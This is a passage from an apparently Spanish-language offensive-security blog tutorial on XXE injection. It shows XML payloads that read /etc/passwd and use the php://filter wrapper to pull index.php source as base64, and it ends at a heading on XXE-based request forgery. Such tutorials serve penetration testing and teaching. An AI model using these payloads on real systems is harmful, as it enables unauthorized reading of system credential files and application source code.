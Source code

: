 ```markup
<!DOCTYPE foo [ 
<!ELEMENT foo ANY> 
<!ENTITY sp SYSTEM “file:///etc/passwd” > 
]>

<root><name>&sp;</name><password>admin</password></root>
```

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-5.png)

Como notó, usamos la entidad “&sp;” exactamente donde la etiqueta reside para tener acceso no autorizado al archivo `/etc/passwd`.

```markup
<!DOCTYPE r [ 
<!ELEMENT r ANY> 
<!ENTITY sp SYSTEM “file://index.php” > 
]>

<root><name>&sp;</name><password>admin</password></root>
```

Ahora solicitaremos un archivo .php ubicado en el sistema de archivos:

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-6.png)

Como puede ver, esta vez no tuvimos éxito en nuestra solicitud porque el lenguaje .php usa diferentes contenedores para interactuar con el código .php.

La solución para acceder al archivo “index.php” seria usar el contenedor “php://filter” en nuestro código XML.

```markup
<!DOCTYPE r [ 
<!ELEMENT r ANY> 
<!ENTITY sp SYSTEM “php://filter/read=convert.base64-encode/resource=index.php” > 
]>


<root><name>&sp;</name><password>admin</password></root>

```

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-7.png)

Esta vez, el ataque también fue exitoso y nos permitió acceder al archivo “index.php”. Como puede usted ver, el archivo es mostrado **codificado en Base64**.

El siguiente paso sería decodificar el código:

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-8.png)

Para finalmente tener acceso total al archivo.

### **Ataque XXE para falsificar solicitudes desde el lado del servidor**
